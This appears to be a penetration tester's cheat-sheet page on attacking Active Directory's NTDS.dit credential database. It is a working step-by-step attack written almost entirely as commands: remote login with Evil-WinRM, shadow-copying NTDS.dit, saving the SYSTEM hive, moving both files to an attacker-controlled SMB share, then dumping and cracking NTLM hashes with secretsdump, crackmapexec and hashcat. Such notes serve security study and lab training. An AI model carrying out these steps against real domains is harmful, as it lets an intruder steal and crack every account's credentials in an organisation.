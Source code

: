 ```yaml
---
title: Attacking NTDS
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
---
```

# Attacking NTDS

By default, the NTDS file (NTDS.dit) is located in `%SystemRoot%\NTDS\Ntds.dit` of a domain controller. The .dit stands for directory information tree. 

## Alternative #1

**1.** Connecting to a DC with Evil-WinRM

```shell-session
evil-winrm -i $DomainControllerIP  -u $username -p $password
# Example:
# evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

**2.** Checking Local Group Membership

```shell-session
net localgroup
```

**3.** Checking User Account Privileges including Domain

```shell-session
net user $username
# Example: 
# net user bwilliamson
```

**4.** Creating Shadow Copy of C: We can use vssadmin to create a Volume Shadow Copy (VSS) of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install.

```shell-session
vssadmin CREATE SHADOW /For=C:
```

Results:

```
Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

**5.** Copying NTDS.dit from the VSS: We can then copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to our attack host.

```shell-session
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

**6.** We will also need either the SYSTEM hive or bootkey is required for local parsing. So let's save the system hive

```cmd
reg.exe save hklm\system C:\system.save
```

**7.** Transfer file to attacking machine. For instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
# If you are from powershell
cmd.exe /c move C:\NTDS\NTDS.dit \\$ipAttacker\CompData
cmd.exe /c move system.save \\$ipAttacker\CompData

# If you have a cmd terminal
move C:\NTDS\NTDS.dit \\$ipAttacker\CompData
move system.save \\$ipAttacker\CompData

```

**8.** Extract and crack ntds.dit locally:

```bash
python ~/tools/impacket/examples/secretsdump.py -ntds ~/borrar/NTDS.dit  -system ~/borrar/system.save -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```


## Alternative #2 

```shell-session
crackmapexec smb $ip -u $username -p $password --ntds
# Example: 
# crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

Cracking a Single Hash with Hashcat

```shell-session
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Cracking ntds file

We will need either the SYSTEM hive or bootkey:

```bash
python3 /opt/impacket/examples/secretsdump.py -ntds ~/borrar/ntds.dit -system ~/Extract/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-extract

python3 /opt/impacket/examples/secretsdump.py -ntds ~/borrar/ntds.dit -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```

